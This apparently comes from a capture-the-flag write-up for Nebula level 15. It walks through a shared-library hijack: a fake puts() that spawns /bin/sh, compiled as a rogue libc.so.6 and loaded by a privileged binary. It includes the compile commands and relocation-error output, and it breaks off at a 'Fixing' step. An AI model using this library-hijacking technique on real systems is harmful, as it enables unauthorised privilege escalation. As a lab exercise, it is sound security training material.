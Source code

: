 **Function Hooking**  [ [Ref](https://blog.netspi.com/function-hooking-part-i-hooking-shared-library-function-calls-in-linux/) ]
I think we can also use Frida. But I will try manual method for more knowledges.

Fake puts C Code
```
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
int puts(const char *message)
{
	system("/bin/sh");
}
```
Compiling
```
level15@nebula:/var/tmp/flag15$ gcc -shared -fPIC -o libc.so.6 fakeputs.c
fakeputs.c:1:20: warning: extra tokens at end of #include directive [enabled by default]
```
Running
```
level15@nebula:/var/tmp/flag15$ /home/flag15/flag15
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /home/flag15/flag15)
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /var/tmp/flag15/libc.so.6)
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /var/tmp/flag15/libc.so.6)
/home/flag15/flag15: relocation error: /var/tmp/flag15/libc.so.6: symbol __cxa_finalize, version GLIBC_2.1.3 not defined in file libc.so.6 with link time reference
```
We are missing __cxa_finalize and GLIBC Version. I searched at google
__cxa__finalize [ [Ref 1](https://refspecs.linuxbase.org/LSB_3.2.0/LSB-Core-generic/LSB-Core-generic/baselib---cxa_finalize.html) ] [ [Ref 2](https://github.com/lattera/glibc/blob/master/stdlib/cxa_finalize.c) ]  

```
__cxa_finalize (void *d)
{
	return;
}
```
GLIBC Version 
gcc have --version-script options. [Here](https://stackoverflow.com/questions/14624245/what-does-a-version-file-look-like) is version file example.
```
GLIBC 2.0 {};
```
**Test Again and failed again**
```
level15@nebula:/var/tmp/flag15$ gcc -o libc.so.6 -shared -fPIC -Wl,--version-script=/home/level15/version fakeputs.c

level15@nebula:/var/tmp/flag15$ /home/flag15/flag15                             
/home/flag15/flag15: relocation error: /home/flag15/flag15: symbol __libc_start_main, version GLIBC_2.0 not defined in file libc.so.6 with link time reference
```
Fixing ( [Ref](https://refspecs.linuxbase.org/LSB_3.1.0/LSB-generic/LSB-generic/baselib---libc-start-main-.html) )
